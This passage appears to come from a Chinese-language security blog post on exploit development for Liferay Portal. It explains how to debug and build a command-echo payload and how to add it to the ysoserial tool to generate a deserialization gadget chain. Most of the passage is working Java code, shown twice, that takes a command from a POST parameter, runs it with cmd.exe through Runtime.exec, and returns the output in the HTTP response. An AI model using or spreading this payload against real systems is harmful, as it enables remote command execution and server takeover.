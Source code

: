 **<a class="reference-link" name="2.%20%E8%B0%83%E8%AF%95payload%E7%9A%84%E6%96%B9%E6%B3%95"></a>2. 调试payload的方法**

编写这块回显代码的时候不可能盲写，也是需要一定的调试技巧的，我们首先吧程序断在触发漏洞的地方，之后通过Evaluate Expression 编写代码

[![](https://p2.ssl.qhimg.com/t018fdacd63b58d8558.png)](https://p2.ssl.qhimg.com/t018fdacd63b58d8558.png)

通过Evaluate后的代码只能是最后一个java语句的返回值如上图所示。最后利用这个方法写了个从POST参数获取命令，之后用回显的方式输出

```
javax.servlet.http.HttpServletResponse httpServletResponse;
javax.servlet.http.HttpServletRequest httpServletRequest;
httpServletResponse = com.liferay.portal.kernel.security.access.control.AccessControlUtil.getAccessControlContext().getResponse();
httpServletRequest = com.liferay.portal.kernel.security.access.control.AccessControlUtil.getAccessControlContext().getRequest();
java.io.Writer writer = httpServletResponse.getWriter();
String cmd = httpServletRequest.getParameter("4ct10n");
String[] cmds =  new String[]`{`"cmd.exe", "/c", cmd`}`;
java.io.InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\a");
String output = s.hasNext() ? s.next() : "";
writer.write(output);
writer.flush();
```

正则表达式”\A”跟”^”的作用是一样的，代表文本的开头，useDelimiter(“\a”) 代表获取所有的输出内容

[![](https://p4.ssl.qhimg.com/t01635adf9bd5161860.png)](https://p4.ssl.qhimg.com/t01635adf9bd5161860.png)

**<a class="reference-link" name="3.%20%E4%B8%8Eysoserial%E6%95%B4%E5%90%88"></a>3. 与ysoserial整合**

在Evaluate 中写好回显代码之后要与ysoseial工具进行整合，从而生成相对应的利用链payload，

<a class="reference-link" name="%EF%BC%881%EF%BC%89%E5%9C%A8Gadgets.java%20%E4%B8%AD%E6%B7%BB%E5%8A%A0%E4%BB%A3%E7%A0%81"></a>**（1）在Gadgets.java 中添加代码**

```
String cmd =
    "            javax.servlet.http.HttpServletResponse httpServletResponse;\n" +
    "            javax.servlet.http.HttpServletRequest httpServletRequest;\n" +
    "                httpServletResponse = com.liferay.portal.kernel.security.access.control.AccessControlUtil.getAccessControlContext().getResponse();\n" +
    "                httpServletRequest = com.liferay.portal.kernel.security.access.control.AccessControlUtil.getAccessControlContext().getRequest();\n" +
    "            java.io.Writer writer = httpServletResponse.getWriter();\n" +
    "                String cmd = httpServletRequest.getParameter("xxx");\n" +
    "                String[] cmds = new String[]`{`"cmd.exe", "/c", cmd`}`;\n" +
    "                java.io.InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();\n" +
    "                java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\\\a");\n" +
    "                String output = s.hasNext() ? s.next() : "";\n"  +
    "            writer.write(output);\n" +
    "            writer.flush();\n";
```
